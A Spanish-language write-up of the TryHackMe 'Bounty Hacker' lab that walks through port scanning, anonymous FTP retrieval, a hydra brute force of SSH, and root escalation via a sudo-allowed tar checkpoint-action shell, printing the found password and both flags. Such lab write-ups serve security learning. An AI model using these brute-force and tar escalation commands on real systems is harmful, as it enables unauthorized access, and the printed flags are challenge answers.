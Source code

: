 # Bounty Hacker | TryHackMe
## 📝 Resumen
Esta máquina representa un entorno vulnerable orientado a pentesting inicial y escalada de privilegios. El reto consiste en aprovechar un servicio FTP abierto, extraer información sensible, realizar una fuerza bruta sobre SSH, y finalmente escalar privilegios usando un binario mal configurado (tar).
Se obtienen dos flags: user.txt y root.txt.

## 🧰 Herramientas utilizadas


## 🔍 Pasos detallados
### 1. 🛰 Verificación de conectividad
```bash
ping -c 1 10.10.119.45
```

### 2. 📦 Escaneo de puertos
```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -n -vvv -Pn 10.10.119.45 -oN escaneo.txt
```
Puertos abiertos detectados:
- 21/tcp – FTP (vsftpd 3.0.3)
- 22/tcp – SSH (OpenSSH 7.2p2)
- 80/tcp – HTTP (Apache 2.4.18)

### 3. 📁 Conexión al FTP
```bash
ftp 10.10.119.45
# login: anonymous
ftp> passive
ftp> ls -la
ftp> get locks.txt
ftp> get task.txt
```

### 4. 📄 Revisión de archivos descargados
```bash
cat locks.txt  # Diccionario con posibles contraseñas
cat task.txt   # Notas firmadas por el usuario "lin"
```

### 5. 🔓 Fuerza bruta sobre SSH
```bash
hydra -l lin -P locks.txt ssh://10.10.119.45
```
🔑 Credenciales encontradas:
- Usuario: lin
- Password: RedDr4gonSynd1cat3

### 6. 🔑 Acceso remoto por SSH
```bash
ssh lin@10.10.119.45
```

### 7. 🏁 Flag de usuario
```bash
cd ~/Desktop
cat user.txt
Resultado: VEhNe0NSMU0zX1N5TmQxQzRUM30=
```

### 8. 🔼 Comprobación de privilegios sudo
```bash
sudo -l
```
lin puede ejecutar /bin/tar como root sin contraseña

### 9. 💻 GTFObins
Buscamos el binario /tar para buscar que comando podemos ejecutar para obtener una shell como root:
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

### 10. 🚀 Escalada de privilegios usando tar
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
Resultado: root
```

### 11. 🏁 Flag de root
```bash
cd /root
cat root.txt
Resultado: VEhNe0IwVU43WV9oNGNLM3J9
```
---
